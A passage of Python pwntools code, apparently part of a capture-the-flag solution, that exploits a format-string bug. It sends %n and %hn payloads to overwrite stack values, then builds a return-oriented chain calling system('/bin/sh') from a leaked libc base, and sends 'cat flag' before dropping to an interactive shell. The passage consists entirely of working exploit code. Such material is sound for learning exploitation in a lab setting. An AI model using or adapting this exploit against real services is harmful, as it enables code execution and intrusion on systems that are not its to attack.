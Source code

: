 ```python
p.sendline(payload)

p.clean()
p.clean()
p.clean()
sleep(1)

payload2 = f"%3c%21$n"
p.sendline(payload2)

p.clean()
sleep(1)

p.sendline(f"%{stack>>16}c%31$n".encode())

p.clean()
sleep(1)

buffer_ptr = stack-0xa8 & 0xffff
payload = f"%{buffer_ptr}c%11$hn\n\n"
p.sendline(payload.encode())

p.clean()
sleep(1)

p.sendline(f"%{(stack-0xd8)&0xffff}c%31$hn".encode())

sleep(1)

binsh = next(libc.search(b"/bin/sh")) + libc_leak
pop_rdi = 0x00000000000cee4d + libc_leak
rop_chain = [pop_rdi+1, pop_rdi, binsh, libc.sym['system'] + libc_leak]
rop_chain = b''.join(map(p64, rop_chain))
p.sendline(rop_chain)

sleep(1)

p.sendline("cat flag")

p.interactive()
```
